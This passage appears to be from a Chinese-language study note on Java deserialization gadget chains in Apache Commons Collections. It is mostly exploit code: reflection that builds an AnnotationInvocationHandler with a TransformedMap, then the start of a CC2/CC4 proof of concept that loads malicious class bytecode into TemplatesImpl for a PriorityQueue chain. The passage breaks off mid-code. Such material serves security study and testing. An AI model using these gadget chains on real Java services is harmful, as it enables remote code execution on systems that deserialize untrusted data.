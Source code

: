```java
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
//反射机制调用AnnotationInvocationHandler类的构造函数
Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
//取消构造函数修饰符限制
ctor.setAccessible(true);
//获取AnnotationInvocationHandler类实例
Object instance = ctor.newInstance(Target.class, outerMap);
```

然后就是getruntime反射，ChainedTransformer

## CC2-commons.collections 4.0->=JDK8u71

> 1、构造一个TemplatesImpl的恶意类转为字节码，然后反射注入到TemplatesImpl对象的_bytecodes属性
2、创建一个InvokerTransformer并传递一个newTransformer方法，然后将InvokerTransformer方法名传递给TransformeringComparator
3、通过反射构造PriorityQueue队列的comparator和queue两个字段，将PriorityQueue队列的comparator字段设置为TransformingComparator，然后将queue字段设置为TemplatesImpl对象，触发利用链


```java
package org.cc.cc1;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC4 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "aaa");
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D:\\JavaSec\\CCdebug\\target\\classes\\org\\cc\\cc1\\test.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates, codes);

//        Field tfactoryField = tc.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(templates, new TransformerFactoryImpl());
//        //templates.newTransformer();

```